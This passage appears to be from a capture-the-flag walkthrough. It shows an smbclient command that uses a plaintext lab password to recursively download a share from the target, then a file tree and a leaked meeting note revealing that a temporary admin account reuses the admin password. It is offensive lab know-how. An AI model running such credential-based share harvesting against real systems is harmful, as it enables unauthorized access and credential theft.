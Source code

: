 `mkdir Data`

`smbclient --user 'r.thompson' --password='rY4n5eva' //10.10.10.182/Data -c 'prompt OFF;recurse ON;lcd /home/nabla/Data;mget *'`:
```
NT_STATUS_ACCESS_DENIED listing \Contractors\*
NT_STATUS_ACCESS_DENIED listing \Finance\*
NT_STATUS_ACCESS_DENIED listing \Production\*
NT_STATUS_ACCESS_DENIED listing \Temps\*
getting file \IT\Email Archives\Meeting_Notes_June_2018.html of size 2522 as IT/Email Archives/Meeting_Notes_June_2018.html (4.1 KiloBytes/sec) (average 4.1 KiloBytes/sec)
getting file \IT\Logs\Ark AD Recycle Bin\ArkAdRecycleBin.log of size 1303 as IT/Logs/Ark AD Recycle Bin/ArkAdRecycleBin.log (2.0 KiloBytes/sec) (average 3.0 KiloBytes/sec)
getting file \IT\Logs\DCs\dcdiag.log of size 5967 as IT/Logs/DCs/dcdiag.log (7.1 KiloBytes/sec) (average 4.7 KiloBytes/sec)
getting file \IT\Temp\s.smith\VNC Install.reg of size 2680 as IT/Temp/s.smith/VNC Install.reg (3.2 KiloBytes/sec) (average 4.2 KiloBytes/sec)
```

`tree ./Data`:
```
./Data
├── Contractors
├── Finance
├── IT
│   ├── Email Archives
│   │   └── Meeting_Notes_June_2018.html
│   ├── LogonAudit
│   ├── Logs
│   │   ├── Ark AD Recycle Bin
│   │   │   └── ArkAdRecycleBin.log
│   │   └── DCs
│   │       └── dcdiag.log
│   └── Temp
│       ├── r.thompson
│       └── s.smith
│           └── VNC Install.reg
├── Production
└── Temps

14 directories, 4 files
```

`cat ./Data/IT/Email\ Archives/Meeting_Notes_June_2018.html`:
```html
<html>

[...]

<p><o:p>&nbsp;</o:p></p>

<p>For anyone that missed yesterday�s meeting (I�m looking at
you Ben). Main points are below:</p>

<p class=MsoNormal><o:p>&nbsp;</o:p></p>

<p>-- New production network will be going live on
Wednesday so keep an eye out for any issues. </p>

<p>-- We will be using a temporary account to
perform all tasks related to the network migration and this account will be deleted at the end of
2018 once the migration is complete. This will allow us to identify actions
related to the migration in security logs etc. Username is TempAdmin (password is the same as the normal admin account password).🔍 </p>

<p>-- The winner of the �Best GPO� competition will be
```